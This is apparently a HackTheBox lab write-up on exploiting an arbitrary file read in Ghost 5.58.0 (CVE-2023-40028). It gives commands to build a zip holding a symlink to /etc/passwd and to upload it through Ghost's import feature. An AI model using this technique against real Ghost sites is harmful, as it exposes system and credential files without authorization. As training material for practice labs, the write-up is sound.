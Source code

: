 ### Authenticated Website Enumeration

See the ghost version 
![[HackTheBox/Linux/attachments/Pasted image 20250512215611.png]]

Googling "ghost 5.58.0 exploit" and seeing an [arbitrary file read vulnerability exists](https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028)

![[HackTheBox/Linux/attachments/Pasted image 20250512215713.png]]

### Download arbitrary file read exploit code

```
git clone https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028.git
```

Viewing the exploit script 
![[HackTheBox/Linux/attachments/Pasted image 20250512215921.png]]

#### Manually exploiting this vulnerability

Creating this images directory 

```
mkdir -p exploit/content/images
```

Put a symlink here

```
ln -s /etc/passwd exploit/content/images/test.png
```

Cat this test.png file and see the /etc/passwd file 

![[HackTheBox/Linux/attachments/Pasted image 20250512232843.png]]

Run an ls -la to view the symlink
```
ls -la 
```

![[HackTheBox/Linux/attachments/Pasted image 20250512232932.png]]

Zip up this test.png symlink file 

```
zip -r -y exploit.zip exploit/content/images/test.png
```

![[HackTheBox/Linux/attachments/Pasted image 20250512233148.png]]

Going back to the website and opening the import content and drop the exploit.zip file 
![[HackTheBox/Linux/attachments/Pasted image 20250512233227.png]]

Navigate to the file location in the URL
![[HackTheBox/Linux/attachments/Pasted image 20250512233341.png]]
